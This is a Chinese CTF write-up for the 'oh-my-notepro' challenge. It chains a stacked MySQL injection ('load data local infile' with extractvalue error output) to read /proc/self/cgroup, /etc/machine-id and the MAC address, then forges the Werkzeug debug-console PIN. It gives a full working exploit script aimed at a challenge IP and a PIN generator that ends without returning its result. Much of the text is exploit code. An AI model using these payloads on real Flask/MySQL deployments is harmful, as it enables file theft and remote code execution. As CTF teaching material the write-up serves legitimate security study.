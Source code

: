 # oh-my-notepro-ZH

打开题目，在完成登录以后，发现是一个note记录板，每个登录用户可以发送note到自己账目下，尝试访问异常的url以后会发现有flask debug信息，直观感觉是一个pin码构造的题目，先得找寻可以任意文件读的地方。

访问`/view`路由以后，在debug报错中发现代码

```
result = db.session.execute(sql,params={"multi":True})
```

可知此处表明存在堆叠注入的可能，猜测是MySQL的堆叠注入读取文件，并同时利用debug信息的报错返回可以读取本地文件，利用`load_file`结合debug信息返回配合报错注入可以读取到`/etc/passwd`，但尝试根据pin码伪造需要的文件名信息进行读取时，发现无法读到对应文件内容，此处和`load_file`的使用特性有关，`load_file`无法成功读取一些涉及系统信息的文件，改用`load data infile`来读取，发现能读到涉及MAC等pin码伪造的必要信息，但开始构造pin码时并不能计算出正常的pin码，原因有两点：


* MySQL服务和Web服务分属两个不同的容器，使用`load data infile`读取到的是MySQL容器的文件信息，该文件信息并不是Web服务的运行环境信息，所以应该使用`load data local infile`来读取Web服务的文件信息来构造pin码，参考POC如下

```
view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));
```


* 通过翻阅源码可知，Werkzeug的更新给pin码的计算方式带来了变化`https://github.com/pallets/werkzeug/commit/617309a7c317ae1ade428de48f5bc4a906c2950f`，直接使用网上大多数的pin码计算方式并不能计算出当前环境下正确的pin码，主要有两个变化，一个是修改以前是读取`/proc/self/cgroup、/etc/machine-id、/proc/sys/kernel/random/boot_id`这三个文件，读取到一个文件的内容，直接返回，新版本是从`/etc/machine-id、/proc/sys/kernel/random/boot_id`中读到一个值后立即break，然后和`/proc/self/cgroup`中的id值拼接，使用拼接的值来计算pin码；二一个变化是h的计算从md5变为了使用sha1，所以计算pin码的POC也要进行相应的调整，此外输入正确的pin码以后大概率会出现404等错误，可以通过清理网站缓存然后开启一个新的无痕会话来解决这个问题。

参考POC如下

```
# exp.py

import requests
import re
import string
import random
from pin import solve

def get_content(file, regexp):
    ans = ''
    z = 1
    while True:
        try:
            tmp_database = get_random_id()
            path = f"view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));"
            view_url = base_url + path
            r = s.get(url=view_url)
            content = re.findall("'~(.*?)'", r.text)[0]
            if content[0] == '~':
                break
            ans += content[:-1]
            if content[-1] != '~':
                break
            z += 20
            print(ans)
            
        except Exception as e:
            print(e)
            break
    k = re.findall(regexp, ans)[0]
    print('k is: ', k)
    return k

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

base_url = 'http://localhost:5002/'
base_url = 'http://124.223.208.221:5002/'
s = requests.session()

login_data = {
    'username': "veererere",
    'password': "fefefef"
}
proxies = {
    'http': 'http://127.0.0.1:8080'
}
login_url = base_url + 'login'
r = s.post(url=login_url, data=login_data, proxies=proxies)

cgroup = get_content('/proc/self/cgroup', 'docker/(.*?),')
machine_id = get_content('/etc/machine-id', '(.*)')
eth0 = get_content('/sys/class/net/eth0/address', '(.*)')

eth0 = str(int(eth0.replace(':',''),16))

print("eth0 is: ", eth0)
print("machine_id is: ", machine_id)
print("cgroup is: ", cgroup)
solve('ctf', eth0, machine_id, cgroup)

```

```
# pin.py

import hashlib
from itertools import chain

def solve(username, eth0, machine_id, cgroup):
    probably_public_bits = [
    username,# username ok
    'flask.app', # ok
    'Flask' #ok,
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # ok
]

    private_bits = [
        eth0,# /sys/class/net/eth0/address
        machine_id + cgroup
        # '7cb84391-1303-4564-8eff-ef7571804198327e92627edf30f63fde916e3c3017aea76eeb876265a726270a575d391eeb4a'# machine-id
        # /etc/machine-id + /proc/self/cgroup
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num
```